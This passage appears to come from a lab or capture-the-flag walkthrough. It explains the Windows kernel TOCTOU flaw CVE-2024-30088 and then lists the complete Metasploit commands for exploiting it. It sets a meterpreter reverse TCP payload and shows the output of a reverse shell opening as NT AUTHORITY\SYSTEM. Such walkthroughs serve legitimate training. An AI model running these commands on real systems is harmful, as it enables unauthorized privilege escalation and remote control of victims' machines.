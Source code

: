 **Output highlights:**

```
[+] exploit/windows/local/cve_2024_30088_authz_basep: The target appears to be vulnerable.
```

---

### Exploiting CVE-2024-30088

🎓 **Understanding CVE-2024-30088:**  
This is a Windows Kernel Time-of-Check Time-of-Use (TOCTOU) vulnerability. It affects the Windows authorization process:

- **Time-of-Check:** Windows checks if you have permission to do something  
- **Time-of-Use:** Windows actually does that thing

**The Bug:** Between check and use, an attacker can switch permissions  
**Result:** You can execute code as SYSTEM!

Configure the exploit:

```
use exploit/windows/local/cve_2024_30088_authz_basep
set payload windows/x64/meterpreter/reverse_tcp
set session 1
set LHOST tun0
set LPORT 4445
set AutoCheck false
exploit
```

🎓 **Important Details:**

- `LPORT 4445` - Different port than original session to avoid conflicts  
- `AutoCheck false` - Skip auto-verification (we know it's vulnerable)  
- Original session will die - this is expected behavior!

**What to expect:**

```
[*] Started reverse TCP handler on 10.10.14.83:4445
[*] Launching notepad to host the exploit...
[+] Exploit finished, wait for payload execution
[*] Sending stage (201798 bytes) to 172.16.20.2
[*] Meterpreter session 2 opened
```

Verify SYSTEM access:

```
sessions -i 2
getuid
```

```
Server username: NT AUTHORITY\SYSTEM
```
